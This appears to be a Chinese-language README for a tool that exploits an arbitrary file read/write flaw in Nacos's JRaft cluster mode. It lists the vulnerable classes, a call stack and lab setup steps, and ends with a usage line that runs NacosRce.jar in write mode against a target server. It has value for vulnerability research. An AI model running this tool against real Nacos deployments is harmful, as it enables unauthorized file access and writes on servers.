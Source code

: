 #### Nacos JRaft 任意文件读写

一些操作信息记录

```java
com.alibaba.nacos.core.storage.kv.FileKvStorage实现了com.alibaba.nacos.core.storage.kv.KvStorage，这是任意文件读写位置

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#onApply任意文件读写调用点

com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor#group返回了naming_persistent_service表示调用的group

读文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#get

写文件方法：
com.alibaba.nacos.core.storage.kv.FileKvStorage#put
```

#### NacosStateMachine的onApply调用堆栈



```java
TomcatEmbeddedWebappClassLoader@4a8355dd
    @com.alibaba.nacos.naming.consistency.persistent.impl.BasePersistentServiceProcessor.onApply()
        at com.alibaba.nacos.core.distributed.raft.NacosStateMachine.onApply(NacosStateMachine.java:122)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doApplyTasks(FSMCallerImpl.java:597)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.doCommitted(FSMCallerImpl.java:561)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.runApplyTask(FSMCallerImpl.java:467)
        at com.alipay.sofa.jraft.core.FSMCallerImpl.access$100(FSMCallerImpl.java:73)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:150)
        at com.alipay.sofa.jraft.core.FSMCallerImpl$ApplyTaskHandler.onEvent(FSMCallerImpl.java:142)
        at com.lmax.disruptor.BatchEventProcessor.run(BatchEventProcessor.java:137)
        at java.lang.Thread.run(Thread.java:748)
```

#### 注册group类

```java
com.alibaba.nacos.core.distributed.raft.JRaftServer#createMultiRaftGroup
```

#### 只有集群模式有漏洞

开启集群模式

使用MySQL数据库，cluster.conf配置文件中只写入本机IP地址：10.10.87.157:8848，然后启动：sh startup.sh

```
https://nacos.io/zh-cn/docs/cluster-mode-quick-start.html
```

写入成功截图

![iShot_2024-08-26_17.40.21](/Users/skymurray/WorkSpace/java/NacosFileReadWrite/NacosFileReadWrite/iShot_2024-08-26_17.40.21.png)

![iShot_2024-08-26_17.41.40](./iShot_2024-08-26_17.41.40.png)

<br />

注意：工具仅供学习使用，请勿滥用，否则后果自负！

<br />**食用方式 **<br />
<br />

```shell
java -jar NacosRce.jar http://192.168.90.1:8848/ 7848 write
```

<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
<br />[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)

